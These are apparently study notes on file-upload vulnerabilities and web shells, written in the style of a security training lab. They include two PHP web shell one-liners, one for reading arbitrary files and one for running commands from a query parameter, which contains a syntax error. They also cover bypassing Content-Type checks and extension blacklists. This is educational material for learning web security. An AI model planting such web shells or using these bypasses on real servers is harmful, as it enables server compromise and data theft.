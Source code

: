 # Web Shell Upload

The following PHP one-liner can be used to read arbitrary files from the server's filesystem:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
While a more versatile web shell can be:
```php
<?php echo system($_GET['command']; ?)>
```
this enables to pass a system command via a query:
```http
GET /example/exploit.php?command=id HTTP/1.1
```

## 1. Flawed file type validation
When sending large amounts of binary data, the content type `multipart/form-data` is preferred.

*Example:*
```http
POST /images HTTP/1.1
    Host: normal-website.com
    Content-Length: 12345
    Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="image"; filename="example.jpg"
    Content-Type: image/jpeg

    [...binary content of example.jpg...]

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="description"

    This is an interesting description of my image.

    ---------------------------012345678901234567890123456
    Content-Disposition: form-data; name="username"

    wiener
    ---------------------------012345678901234567890123456--
```
Here each part has a `Content-Disposition` header that provides basin information about the input field, but they also contain their `Content-Type` whith tells the server the `MIME` type of the data.

Websites sometime try to validate file uploads by checking this `Content-Type` if it matches the expected `MIME` type. 

**Problems** may arise when the valie of this header is implicitly trusted by the server, and no further validation is performed to check if the contents match the supposed MIME type. 

## 2. Insufficient blacklisting of dangerous file types

Its *difficult* to block every possible file extension that can be dangerous, such as `.php5, .shtml`, etc.

### 2.1 Overriding the server configuration

Servers don't execute files unless they have been configured.

In order for Apache servers to execute PHP files requested by clients, devs have to add the following directives on the `/etc/apache2/apache2.conf` file:

```php
LoadModule php_module /usr/lib/apache2/module/libphp.so
    AddType application/x-httpd-php .php
```

Some servers also allow devs to create config files to override or add to the global settings.

On *Apache*, it will load *directory-specific* config files from the file `.htaccess` if it's present.

On *IIS* servers devs can make directory-specific configs using the `web.config` file, which may include directives as the floowing, that allows JSON files to be served to users:

```config
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

